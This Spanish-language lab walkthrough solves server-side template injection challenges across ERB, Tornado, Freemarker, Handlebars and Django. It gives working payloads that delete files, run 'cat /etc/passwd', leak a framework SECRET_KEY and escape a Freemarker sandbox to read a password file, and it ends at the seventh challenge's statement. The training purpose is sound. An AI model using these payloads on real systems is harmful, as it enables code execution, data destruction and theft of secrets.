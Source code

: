 ## Reto 1: Inyección básica de plantillas del lado del servidor

Este laboratorio es vulnerable a la inyección de plantillas del lado del servidor debido a la construcción insegura de una plantilla ERB.

Para resolver el laboratorio, revise la documentación de ERB para descubrir cómo ejecutar código arbitrario y luego elimine el morale.txt archivo del directorio de inicio de Carlos. 

Aprovechamos una vulnerabilidad de Server-Side Template Injection (SSTI) en Ruby (ERB), donde la aplicación evalúa contenido enviado por el usuario sin validación. Mediante la sintaxis de plantillas de ERB, demostramos la ejecución de código del lado servidor, logrando eliminar un archivo del sistema con un simple payload.

```
GET /?message=<%= File.delete("morale.txt") %> HTTP/2
```

## Reto 2:  Inyección básica de plantillas del lado del servidor (contexto del código)

Este laboratorio es vulnerable a la inyección de plantillas del lado del servidor debido a la forma en que utiliza de forma insegura una plantilla de Tornado. Para resolver el laboratorio, revise la documentación de Tornado para descubrir cómo ejecutar código arbitrario y luego elimine el archivo. morale.txt  del directorio de inicio de Carlos.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales: wiener:peter 

Esta vulnerabilidad de Server-Side Template Injection (SSTI) en el motor de plantillas Tornado. Mediante una combinación de sintaxis de plantillas y código Python embebido, conseguimos ejecutar comandos arbitrarios desde el servidor.

```
blog-post-author-display=user.first_name}}{%import os%}{{os.system('cat /etc/passwd')&csrf=CpgATskIw5lJLBFincXaqsU0jfeFGKA3
```

## Reto 3: Inyección de plantillas del lado del servidor mediante documentación

Este laboratorio es vulnerable a la inyección de plantillas del lado del servidor. Para solucionarlo, identifique el motor de plantillas y utilice la documentación para averiguar cómo ejecutar código arbitrario. Luego, elimine el morale.txt archivo del directorio de inicio de Carlos.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales:
content-manager:C0nt3ntM4n4g3r

Analizando la documentación oficial, identificamos la función ‘new()‘ como vector de ataque para instanciar clases peligrosas, como Execute, que permite lanzar comandos del sistema.

```
Only <#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("rm morale.txt")} left of ${product.name} at ${product.price}.</p>
```

## Reto 4: nyección de plantilla del lado del servidor en un lenguaje desconocido con un exploit documentado

Este laboratorio es vulnerable a la inyección de plantillas del lado del servidor. Para solucionarlo, identifique el motor de plantillas y busque un exploit documentado en línea que pueda usar para ejecutar código arbitrario. Luego, elimine el... morale.txtarchivo del directorio de inicio de Carlos. 

una SSTI donde el motor de plantillas es desconocido. Mediante técnicas de fuzzing descubrimos que se trata de Handlebars, y aprovechamos un exploit documentado por la comunidad para ejecutar código en el servidor.

Comprbamos que en la URL cuando intentamos hacer esto {{7*7}} no da el siguiente error:

```
/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267 throw new Error(str); ^ Error: Parse error on line 1: {{7*7}} --^ Expecting 'ID', 'STRING', 'NUMBER', 'BOOLEAN', 'UNDEFINED', 'NULL', 'DATA', got 'INVALID' at Parser.parseError (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267:19) at Parser.parse (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:336:30) at HandlebarsEnvironment.parse (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/base.js:46:43) at compileInput (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/compiler.js:515:19) at ret (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/compiler.js:524:18) at [eval]:5:13 at Script.runInThisContext (node:vm:128:12) at Object.runInThisContext (node:vm:306:38) at node:internal/process/execution:83:21 at [eval]-wrapper:6:24 Node.js v19.8.1
```

Vemos que el motor de plantillas que se esta empleando es handlebars por lo tanto buscamos un exploit para este motor
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('rm morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

En la URL lo pegamos URL encodeado para que lo pueda interpretar y vemos como resolvemos el laboratorio.

## Reto 5: Inyección de plantillas del lado del servidor con divulgación de información a través de objetos proporcionados por el usuario

Este laboratorio es vulnerable a la inyección de plantillas del lado del servidor debido a la forma en que se pasa un objeto a la plantilla. Esta vulnerabilidad puede explotarse para acceder a datos confidenciales.

Para resolver el laboratorio, roba y envía la clave secreta del marco.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales:
content-manager:C0nt3ntM4n4g3r

Al igual que el ejemplo anterior podemos probar a producir un error y comprobar que plantilla se esta utilizando

Si ponemos {{7*7}} se produce el siguiente error:
```
Traceback (most recent call last): File "<string>", line 11, in <module> File "/usr/local/lib/python2.7/dist-packages/django/template/base.py", line 191, in __init__ self.nodelist = self.compile_nodelist() File "/usr/local/lib/python2.7/dist-packages/django/template/base.py", line 230, in compile_nodelist return parser.parse() File "/usr/local/lib/python2.7/dist-packages/django/template/base.py", line 486, in parse raise self.error(token, e) django.template.exceptions.TemplateSyntaxError: Could not parse the remainder: '*7' from '7*7'
```
buscamos como podemos obtener la key:
```
<p>Hurry! Only {{settings.SECRET_KEY}} left of {{product.name}} at {{product.price}}.</p>
```
finalmente obtenemos la key:
```html
<p>Hurry! Only zfccsjo09s4anyxmd37rvw2jp3wlun66 left of Cheshire Cat Grin at $39.67.</p>
```

## Reto 6: Inyección de plantillas del lado del servidor en un entorno aislado


Este laboratorio utiliza el motor de plantillas Freemarker. Es vulnerable a la inyección de plantillas del lado del servidor debido a su entorno de pruebas mal implementado. Para resolver el laboratorio, salga del entorno de pruebas para leer el archivo. my_password.txt Desde el directorio personal de Carlos. Luego, envíe el contenido del archivo.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales:
content-manager:C0nt3ntM4n4g3r

```
<p>Hurry! Only ${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
left of ${product.name} at ${product.price}.</p>
```

obtenemos la siguiente respuesta :
```
<p>Hurry! Only 50 114 121 54 103 55 116 50 101 116 121 103 107 50 54 115 102 104 109 53 left of Giant Pillow Thing at $25.17.</p> 
```

Si lo decodificamos de ASCII a Text obtenemos la siguiente contraseña:

```
2ry6g7t2etygk26sfhm5
```
## Reto 7: Inyección de plantilla del lado del servidor con un exploit personalizado

Este laboratorio es vulnerable a la inyección de plantillas del lado del servidor. Para solucionarlo, cree un exploit personalizado para eliminar el archivo. /.ssh/id_rsadel directorio de inicio de Carlos.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales: wiener:peter 
